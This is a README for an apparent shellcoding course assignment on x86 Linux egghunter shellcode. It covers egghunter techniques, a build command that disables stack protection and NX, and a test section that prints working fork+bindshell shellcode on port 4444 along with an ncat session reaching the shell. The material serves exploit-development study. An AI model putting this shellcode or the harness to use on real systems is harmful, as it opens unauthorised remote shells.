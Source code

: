 Assignment 3
============

* Study about egghunter shellcode
* Create a working demo of the egghunter
    * Should be configurable for different payloads


Egghunter shellcode
-------------------

There are several known approaches to writing egghunter shellcode for x86 Linux
systems:

  * Using specific system calls to search for egg in process' address space.
  This method practically eliminates potential segfaults and is most reliable.
  [Skape's paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)
  provides all needed details.
  * Crawling process address space without checking for errors. This method may
  be prone to to segfaults. Example can be found
  [here](http://shell-storm.org/shellcode/files/shellcode-784.php).
  * Stack-crawling egghunter. Useful when shellcode is placed in environment
  variable. Example can be found
  [here](https://github.com/mortenbp/pwniesworkshop/blob/master/private/day3/egg-hunter.asm).


`egghunter.nasm` is just a ripoff from Skape's access(2) egghunter. The only
difference is that it is not using access(2) call in order to validate process
memory address - instead chdir(2) call is used which behaves in similar manner
as it comes to process memory address validation. The side effect of using
chdir(2) is that it may succeed effectively changing current working directory
to some random location on the filesystem before final shellcode is called. 


Compilation
-----------

`compile.sh` script can be used to compile and link egghunter source file:

    ./compile.sh egghunter.asm

Script will also print shellcode and its length. Shellcode can be placed in the
file `run_shellcode.c` and then compiled with:

    gcc -fno-stack-protector -z execstack -o run_shellcode run_shellcode.c


Testing
-------

Egghunter shellcode can be easily tested by placing target shellcode in the
environment variable and running previously compiled file `run_shellcode`:

    // Target shellcode: fork+bindshell 0.0.0.0:4444
    export SC=$(printf "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\
    \xe3\xb0\x66\x53\x43\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x31\xc0\
    \x50\xb0\x66\x43\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\
    \x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x50\x57\x89\xe1\xcd\x80\x31\
    \xc0\x50\x50\xb0\x66\xb3\x05\x57\x89\xe1\xcd\x80\x89\xc6\xb0\x02\
    \xcd\x80\x09\xc0\x75\x29\xb0\x06\x89\xfb\xcd\x80\x89\xf3\x31\xc9\
    \xb1\x03\xfe\xc9\xb0\x3f\xcd\x80\x75\xf8\x51\x89\xe2\x89\xe1\x68\
    \x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80\x93\
    \x40\x89\xf3\xcd\x80\xeb\xb8")

    ./run_shellcode


After a while remote shell should be accessible:

    $ ncat -nv 127.0.0.1 4444
    Ncat: Version 6.25 ( http://nmap.org/ncat )
    Ncat: Connected to 127.0.0.1:4444.
    cowsay -p moooo
     _______ 
    < moooo >
     ------- 
            \   ^__^
             \  (@@)\_______
                (__)\       )\/\
                    ||----w |
                    ||     || 


References
----------

* [Linux System Call Table](http://docs.cs.up.ac.za/programming/asm/derick_tut/syscalls.html)
* [Metasploit - egghunt](https://community.rapid7.com/thread/1931)
* [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)


<!---
vim: set textwidth=80 wrapmargin=2:
-->
